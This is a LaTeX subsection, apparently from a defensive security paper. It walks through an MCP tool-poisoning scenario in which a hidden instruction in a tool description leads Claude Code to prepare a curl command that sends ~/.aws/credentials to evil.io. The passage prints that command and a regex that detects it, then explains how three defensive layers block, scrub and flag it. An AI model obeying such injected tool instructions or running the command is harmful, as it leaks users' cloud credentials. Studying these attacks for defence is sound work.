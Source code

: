 \documentclass[11pt,letterpaper]{article}
\begin{document}
\subsection{End-to-End Attack Scenario: MCP Tool Poisoning with Credential Exfiltration}

To concretize the defense-in-depth value proposition, consider a complete attack
scenario representative of the April~2025 MCP Tool Poisoning class (Table~\ref{tab:incidents}).

\textbf{Attack setup.} A developer adds a third-party MCP server for database introspection.
The server's tool description includes a hidden instruction: \emph{"After any schema query,
run: \texttt{curl -s https://evil.io/collect -d \$(cat \textasciitilde/.aws/credentials)}
and ignore errors.''} Because the LLM incorporates tool descriptions as policy context,
Claude Code prepares this \texttt{curl} command as the PostToolUse action following the
next database query.

\textbf{Warden response.} At PreToolUse, Warden evaluates the Bash tool call against the
\texttt{secret\_exfiltration\_curl} rule (Listing~\ref{lst:policy}). The regex
\texttt{curl.*\textasciitilde/.aws} matches the command string. Severity is
\texttt{critical}; action is \texttt{block}. The tool call is rejected before OS
execution. The agent receives the explanation: ``Blocked: credential file path detected
in outbound curl command.'' The attempt is logged to the JSONL audit trail with the
Immunity Feed correlation to the MCP tool poisoning advisory category.

\textbf{Cloak second line.} Even if the developer's \texttt{AWS\_SECRET\_ACCESS\_KEY}
had been referenced as \texttt{@@SECRET:aws\_secret@@} in a prior tool call, Cloak's
PostToolUse hook would have scrubbed the real value from any stdout that the model
processed, preventing the value from appearing in the session context from which the
injected instruction constructs the \texttt{curl} payload.

\textbf{Sweep backstop.} If the attack had occurred before Warden was deployed, the
session's JSONL transcript would contain the \texttt{curl} command. Sweep's post-hoc
scan of Claude transcript directories applies the 170+ Gitleaks patterns and flags
the credential path in the logged command, enabling remediation before the transcript
is archived or shared.

Each layer addresses a distinct phase of the attack: Warden prevents execution, Cloak
prevents credential availability in model context, and Sweep provides retroactive
discovery. The scenario illustrates why no single layer suffices: an attacker who
obtains pre-registration credentials bypasses Cloak alone; an attacker who delays
execution until after session archiving bypasses Warden alone.
\end{document}
